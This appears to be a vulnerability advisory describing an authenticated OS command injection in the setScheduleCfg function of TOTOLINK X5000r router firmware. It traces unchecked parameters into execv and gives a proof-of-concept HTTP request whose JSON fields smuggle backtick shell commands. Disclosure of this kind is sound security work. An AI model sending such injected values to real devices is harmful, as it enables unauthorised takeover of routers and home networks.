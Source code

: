 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /web/cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setScheduleCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setScheduleCfg` (at 0x410E4C), binary /web/cgi-bin/cstecgi.cgi. These parameters (`switch`, `week`, `hour`, `minute`, `recHour`) are passed to the `Uci_set_str` function without any check.

![](setScheduleCfg.png)

The `Uci_Set_Str` function is located in `libcscommon.so`. This function formats the fourth parameter into a string and passes it to the `CsteSystem` function, which eventually calls the `execv` function to execute it.

![](Uci_Set_Str().png)

![](CsteSystem().png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 132
Origin: http://192.168.0.1
Connection: keep-alive
Referer: http://192.168.0.1/advance/schedule.html?timestamp=1733728879167


{"mode":"1","hour":"6`ls>/tmp/1`","minute":"6`ls>/tmp/2`","week":"2`ls>/tmp/3`","recHour":"0`ls>/tmp/4`","topicurl":"setScheduleCfg","token":"836e5d5bf36f2c943d6291c332aee9b0"}
```
